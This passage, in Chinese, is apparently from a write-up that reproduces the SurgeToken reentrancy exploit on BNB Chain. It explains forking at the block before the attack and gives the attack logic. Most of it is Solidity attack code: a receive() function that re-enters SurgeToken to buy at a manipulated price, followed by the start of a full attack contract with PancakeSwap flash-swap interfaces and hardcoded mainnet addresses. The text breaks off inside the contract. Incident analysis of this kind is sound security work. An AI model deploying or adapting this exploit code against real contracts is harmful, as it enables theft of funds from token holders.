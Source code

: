 * 攻击发生在高度为`10087724`的块上，所以同样我们选择稍早的块`10087723`去Fork。

* 在编写攻击代码的过程中，我尝试用`solidity 0.8.0`高版本去还原攻击者的全部流程。

* 要注意的是，在` receive()`函数中要区分向攻击合约发送`BNB`的地址是来自`WBNB`合约还是`SurgeToken`合约

* 因为攻击流程中，`WBNB`也会向攻击合约发送`BNB`，此时不应该触发攻击逻辑。

```
receive() external payable {
    // 如果转账地址为SurgerToken，且循环次数不满6次，则触发攻击逻辑
    if(msg.sender == Surge_Address && time < 6){

        // 此时SurgeToken的TotalSupply还未更改
        // 而卖出操作返还的BNB已经打回了攻击合约账户
        // 通过重入，强行购买，就可以用更低的价格购买Surge
        (bool buy_successful,) = payable(Surge_Address).call{value: address(this).balance, gas: 40000}("");
        time++;
}
```

* 而在调用`PancakeSwap`的`FlashSwap`功能处，为了不引入外部文件，我并没有选择套利者通用的代码模板， 而是自己写了简陋的`interface`，把`Pair`地址写死，而不是去`PancakeFactory`上查询，在已知`Token0`和`Token1`的情况下，也没有加入校验的逻辑。终于完成了对该功能的最小化实现。

* 完整攻击合约代码

```
// SPDX-License-Identifier: Apache-2.0
pragma solidity =0.8.0;

interface IpancakePair{
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external;
    
    function token0() external view returns (address);
    function token1() external view returns (address);
    
}

interface WBNB {

    function deposit() payable external;
    function withdraw(uint wad) external;
    function balanceOf(address account) external view returns (uint);
    function transfer(address recipient, uint amount) external returns (bool);
}


interface Token {
    function balanceOf(address account) external view returns (uint);
    function transfer(address recipient, uint amount) external returns (bool);
}

interface Surge{
    function sell(uint256 tokenAmount) external returns (bool);
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external  returns (bool);
}


contract  test{
    
    address private constant cake_Address = 0x0E09FaBB73Bd3Ade0a17ECC321fD13a19e81cE82;
    
    address private constant WBNB_Address = 0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c;
    
    address private constant Pancake_Pair_Address = 0x0eD7e52944161450477ee417DE9Cd3a859b14fD0;
```